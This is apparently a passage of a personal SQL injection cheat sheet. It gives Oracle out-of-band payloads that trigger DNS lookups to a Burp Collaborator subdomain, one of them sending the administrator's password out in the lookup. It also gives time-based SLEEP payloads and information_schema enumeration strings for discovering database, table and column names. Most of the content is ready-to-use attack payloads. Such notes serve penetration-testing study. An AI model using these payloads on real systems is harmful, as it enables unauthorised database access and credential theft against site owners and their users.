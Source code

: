 DNS Lookup (Example with Oracle DB) ---> Other [Database](https://portswigger.net/web-security/sql-injection/cheat-sheet)
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

UNION Query                 ---> SQL Vulnerability


DNS Lookup with Data Exfiltration (Example with Oracle DB) ---> Other [Database](https://portswigger.net/web-security/sql-injection/cheat-sheet)
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--'
```

UNION Query                 ---> SQL Vulnerability
More information in the Cheat Sheet

The response request will be appended to the subdomain (example.ca ---> answer.example.ca)

---

## Others Examples (VERY GOOD)


>UNION SELECT SLEEP(5), 2, 3, ... ;--       ----> Sleep if number of columns is true (SLEEP(5),2 --> 2 Columns)
>
>UNION SELECT SLEEP(5),2 WHERE database() like 'X%';--     ----> If false = direct response
>
>Ex: `admin' UNION SELECT SLEEP(5),2 where database() like 'sqli%';--`   ---> Find Database Name
>
>repeat the enumeration process from the Boolean based SQL Injection, adding the **SLEEP()** method into the **UNION SELECT** statement.
>
>**Ex** (FROM QUERY MODIFIER): 
>`admin' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'WHAT_WE_FOUND_BEFORE' AND table_name like '%';--`        ---> Table Name
>
>`admin' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema = 'WHAT_WE_FOUND_BEFORE' AND column_name like '%';--`       ---> Column Name
>
>`admin' UNION SELECT SLEEP(5),2 FROM WHAT_WE_FOUND WHERE WHAT_WE_FOUND like '%';--` 
> 												 ---> Check Spicy Information


**Out-of-band** ---> (Check **Query Modifier**)
> database() like '%';--            ----> If there is a database (change the value to guess the database name after)
> TABLE_NAME like '%';--        ----> Same for table
> COLUMN_NAME like '%';--   ----> Same for columns
> 
> from users where username like 'a%  (users = table & username = column) ----> Same for other elements
> 
> 
> **Ex**: `admin' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';`
> 
> Again you'll need to cycle through letters, numbers and characters until you find a match. As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name, so you don't keep discovering the same one. For example, once you've found the column named **id**, you'll append that to your original payload (as seen below).
> 